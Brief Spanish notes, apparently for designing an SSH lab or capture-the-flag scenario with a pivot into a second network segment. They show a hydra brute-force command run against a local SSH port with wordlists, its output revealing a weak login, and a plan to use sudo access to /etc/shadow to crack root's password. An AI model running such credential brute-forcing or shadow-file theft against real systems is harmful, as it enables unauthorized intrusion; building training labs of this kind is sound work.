 Montar SSH que solo haga prompt de algo, pero que se pueda bypasear, y saltar a otro segmento de red.

junquera@vangelis:~$ hydra -L PARA/resources/SecLists/Usernames/top-usernames-shortlist.txt -P PARA/resources/SecLists/Passwords/500-worst-passwords.txt ssh://localhost:2222
[2222][ssh] host: localhost   login: test   password: monkey


sudo da acceso a /etc/shadow

Con /etc/shadow saco passwd de root, y me conecto a segunda máquina

https://eu.bbcollab.com/guest/799ea4388a39407e9af2027c44b5262e

# Example: https://stackoverflow.com/questions/21383806/how-can-i-force-ssh-to-accept-a-new-host-fingerprint-from-the-command-line
